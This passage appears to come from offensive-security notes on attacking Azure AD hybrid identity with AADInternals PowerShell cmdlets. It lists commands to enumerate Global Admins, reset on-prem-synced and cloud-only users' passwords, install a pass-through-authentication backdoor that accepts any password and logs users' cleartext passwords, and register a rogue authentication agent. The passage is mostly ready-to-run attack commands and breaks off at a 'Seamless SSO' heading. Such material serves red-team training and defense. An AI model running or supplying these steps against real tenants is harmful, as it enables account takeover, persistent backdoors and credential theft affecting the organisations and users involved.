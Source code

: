 Enumerates the Global Admins:

```powershell
Get-AADIntGlobalAdmins
```

To reset the password of **an on-prem user** that is synced to Azure AD, the **ImmutableId** (Unique Identifier derived from on-prem GUID) of the user is needed:

```powershell
Get-AADIntUser -UserPrincipalName onpremadmin@corp.onmicrosoft.com | select ImmutableId
```

And then reset:

```powershell
Set-AADIntUserPassword -SourceAnchor "<ImmutableId>" -Password "<new_password>" -Verbose
```

To reset the password of **cloud only user**, the **CloudAnchor** that can be calculated from their cloud objectID is needed (The CloudAnchor is of the format `USER_ObjectID`):

```powershell
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID
```

Then, reset the user's password:

```powershell
Set-AADIntUserPassword -CloudAnchor "User_<ObjectID>" -Password "<new_password>" -Verbose 
```

#### PTA

* No password hash synchronization
* The authentication is validated on-prem. The communication with cloud is done by an authentication agent and not the on-prem DC
* By compromising the authentication agent, it is possible to verify authentications for ANY synced user even if the password is wrong, only the `userPrincipalName` is needed
* By compromising a Global Administrator, it is possible to install an authentication agent in the infrastructure that will authorize all login attempts

**Lateral Movement - On-Prem to Cloud**

On the server running Azure AD Connect with PTA, as admin, install the backdoor:

```powershell
Install-AADIntPTASpy
```

Now it is possible to authenticate on Azure AD as any user without knowing the good password. Additionally, it is possible to spy the passwords of the users who authenticate by running this on the server where the backdoor is installed:

```powershell
Get-AADIntPTASpyLog -DecodePasswords
```

After getting GA privs in Azure AD, it is possible to register a new PTA agent on a controlled machine by running the same steps.

#### Seamless SSO
